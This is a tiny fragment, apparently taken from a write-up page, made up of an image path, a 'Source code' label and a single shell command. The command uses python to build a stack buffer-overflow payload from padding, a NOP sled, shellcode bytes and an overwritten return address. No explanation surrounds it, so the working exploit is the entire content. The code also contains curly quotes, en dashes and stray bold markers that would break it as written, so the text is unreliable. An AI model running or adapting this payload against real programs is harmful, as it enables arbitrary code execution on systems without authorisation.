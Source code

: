 

```
$(python -c ‘print(“\x55” * (2064–124–95–4) + “\x90” * 124 + "\xdb\xd3\xd9\x74\x24\xf4\xb8\x97\xac\x21\xcc\x5a\x29\xc9\xb1\x12\x31\x42\x17\x03\x42\x17\x83\x55\xa8\xc3\x39\x68\x6a\xf4\x21\xd9\xcf\xa8\xcf\xdf\x46\xaf\xa0\xb9\x95\xb0\x52\x1c\x96\x8e\x99\x1e\x9f\x89\xd8\x76\x2a\x60\x15\x36\x42\x76\x29\x27\xcf\xff\xc8\xf7\x89\xaf\x5b\xa4\xe6\x53\xd5\xab\xc4\xd4\xb7\x43\xb9\xfb\x44\xfb\x2d\x2b\x84\x99\xc4\xba\x39\x0f\x44\x34\x5c\x1f\x61\x8b\x1f" + “**\x2e\xd7\xff\xff**”)'
```

























